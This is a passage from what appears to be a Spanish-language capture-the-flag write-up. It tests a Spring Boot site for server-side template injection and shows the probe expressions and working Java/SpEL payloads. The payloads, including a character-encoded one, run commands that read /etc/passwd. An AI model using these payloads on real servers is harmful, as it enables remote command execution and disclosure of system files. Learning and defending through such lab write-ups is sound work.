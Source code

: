 AL final consinste in probar distintos comandos a ver si realiza las operaciones, en unos casos funcionan unos, en otros otro.
 aqui probamos:
 ```java
{{7*7}}
${7*7}
 <%= 7*7 %>
${{7*7}}
#{7*7}
```

Observamos que  `#{7*7}` funciona y nos devuelve la multiplicación. Es mas podemos incluir distintos calculos ahí y nos devuelve el calculo final.

![Desktop View](/assets/img/RedPanda/Pasted image 20221119230725.png){: width="972" height="589" }


![Desktop View](/assets/img/RedPanda/Pasted image 20221119230801.png){: width="972" height="589" }


Por lo tanto es vulnerable.
Buscamos mas a fondo en PayloadsAllTheThings-master/Server Side Template Injection/README

Como hemos dicho que usa la tecnologia Sprint Boot que es de java buscamos en la parte de Java
Encontramos un comando para ver si ver /etc/passwd 
```Java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```
No funciona. SI no funciona tenemos que probar con `#{...}`, `*{...}`, `@{...}` o `~{...}`.
ANtes hemos visto que con `#` hemoes ejecutado algunos asi que probamos con eso.
```java
#{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```


![Desktop View](/assets/img/RedPanda/Pasted image 20221119231843.png){: width="972" height="589" }

Obtenemos algo pero no lo que queremos, probamos con los siguintes y no termina de funcionar ninguno.
Pero podemos probar el comando que viene justo debajo:
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
Tampoco funciona, probamos con `#, * , @ ...`
Y vemos que con `*` si que funciona:

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
